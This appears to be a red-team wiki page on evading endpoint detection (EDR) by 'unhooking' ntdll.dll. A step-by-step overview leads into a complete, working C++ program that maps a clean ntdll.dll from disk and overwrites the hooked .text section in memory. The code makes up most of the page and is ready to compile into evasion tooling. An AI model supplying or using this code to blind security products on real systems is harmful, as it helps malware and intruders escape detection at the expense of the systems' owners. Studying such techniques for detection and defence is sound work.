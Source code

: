 ```yaml
---
description: EDR evasion
---
```


# Full DLL Unhooking with C++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

## Overview

The process for unhooking a DLL is as follows. Let's assume that the  ntdll.dll is hooked and here is how we could unhook it:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from the freshly mapped dll to the virtual address \(found in step 3\) of the original \(hooked\) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

Below is a simplified graph, illustrating the core concept of the technique, where a hooked .text section of ntdll.dll is replaced with a clean copy of .text section of ntdll.dll from disk:

![](../../.gitbook/assets/image%20%28607%29.png)

## Code

Below code fully unhooks the ntdll.dll, although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}
	
	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);
	
	return 0;
}
```

{% hint style="warning" %}
Note that the above code does not fix image base relocations. Although ntdll.dll does not have anything to be relocated within its .text section, it may be required when dealing with other dlls.

Thanks [@mrgretzky](https://twitter.com/mrgretzky) for highlighting [this](https://twitter.com/mrgretzky/status/1271348438421159936).

See my notes about PE image relocations: [https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations\#relocation](https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
{% endhint %}

